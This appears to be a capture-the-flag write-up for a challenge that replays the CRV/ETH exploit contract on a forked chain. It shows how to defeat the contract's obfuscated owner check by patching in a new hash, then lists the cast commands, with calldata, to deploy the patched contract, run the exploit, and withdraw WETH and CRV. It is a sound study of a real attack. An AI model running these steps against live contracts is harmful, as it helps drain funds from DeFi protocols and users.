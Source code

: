 # Obstacle Race
## Task
You're an operator of one of the most successful generalized MEV bots and often prevent exploits before they even happen. But when the CRV/ETH hack happened, your setup wasn't capable of performing a whitehat. You decided to take the ["contract deployment transaction"](https://etherscan.io/tx/0x09f97e8053ba1b557dd9811d6572328a2cddc7d8576fc048af0a64c644d67edd), modify the bytecode (to learn how to handle similar situations in the future), and test it in a forked environment.

Could you execute the frontrun with this modified contract and then withdraw all saved funds to your wallet?

## Solution

### Analysis

The exploit contract contains built-in MEV protection that must be analyzed and bypassed. The best tool for this analysis is the [Dedaub decompiler](https://app.dedaub.com/ethereum/address/0x83e056ba00beae4d8aa83deb326a90a4e100d0c1/decompiled).

The exploit implements an obfuscated owner check:

![Owner Check](./pics/Keccak.png)

Since the decompiler doesn't handle this perfectly, switching to the Yul version provides better insight into how variable `v0` is constructed:

![Yul](./pics/Yul.png)

For a clearer understanding of the assembly code, you can use Claude Code to add detailed comments. See the annotated example in `commented_func_0x9b9.sol`.

In summary, this function verifies that `keccak256(keccak256(tx.origin))` equals a specific hardcoded value.

The hardcoded value consists of two parts:
- **First byte**: `0xd2`
- **Next 31 bytes**: `0xa1110e34c4248ccfec2d3d08ccb14e1daa3c3c6b98578b7aa5139e85179b12`

### Bypassing the Protection

There are two approaches to bypass this check:
1. Replace the hardcoded hash parts with our own values
2. Patch the check itself (modify EQ to NEQ, GT, LT, etc.)

I chose the hash replacement method as it was straightforward to implement.

### Implementation Steps

1. **Calculate your double hash**
   ```bash
   keccak256(keccak256(your_address))
   ```

2. **Split the result into two 32-byte parts**
   
   My hash components:
   - First part: `0xf300000000000000000000000000000000000000000000000000000000000000`
   - Second part: `0xa80ccd8031f05e12624cc910af3a35652f25a76ef822a764e5d7c6abeff75600`

3. **Fetch the creation code of the exploit contract**

4. **Replace the exploiter's hash parts with yours**
   
   Using CTRL-F, locate and replace:
   - Exploiter's `0xd200000000000000000000000000000000000000000000000000000000000000` → Your first part
   - Exploiter's `0xa1110e34c4248ccfec2d3d08ccb14e1daa3c3c6b98578b7aa5139e85179b1200` → Your second part

5. **Deploy the patched contract**
   ```bash
   cast send --rpc-url RPC --private-key KEY --value 0 --create PATCHED_BYTECODE
   ```

6. **Execute the exploit function with original calldata**
   ```bash
   cast send --rpc-url RPC --private-key KEY PATCHED_EXPLOIT_ADDRESS \
   0xb61d27f6000000000000000000000000c02aaa39b223fe8d0a0e5c4f27ead9083c756cc200000000000000000000000000000000000000000000021e19e0c9bab2400000000000000000000000000000000000000000000000000000000000000000006000000000000000000000000000000000000000000000000000000000000000600000000000000000000000008301ae4fc9c624d1d396cbdaa1ed877821d7c511000000000000000000000000ed4064f376cb8d68f770fb1ff088a3d0f3ff5c4d000000000000000000000000d533a949740bb3306d119cc777fa900ba034cd52
   ```

7. **Withdraw WETH from the exploit contract**
   ```bash
   cast send --rpc-url RPC --private-key KEY PATCHED_EXPLOIT_ADDRESS \
   0x4f491f0b000000000000000000000000c02aaa39b223fe8d0a0e5c4f27ead9083c756cc2
   ```

8. **Withdraw CRV from the exploit contract**
   ```bash
   cast send --rpc-url RPC --private-key KEY PATCHED_EXPLOIT_ADDRESS \
   0x4f491f0b000000000000000000000000d533a949740bb3306d119cc777fa900ba034cd52
   ```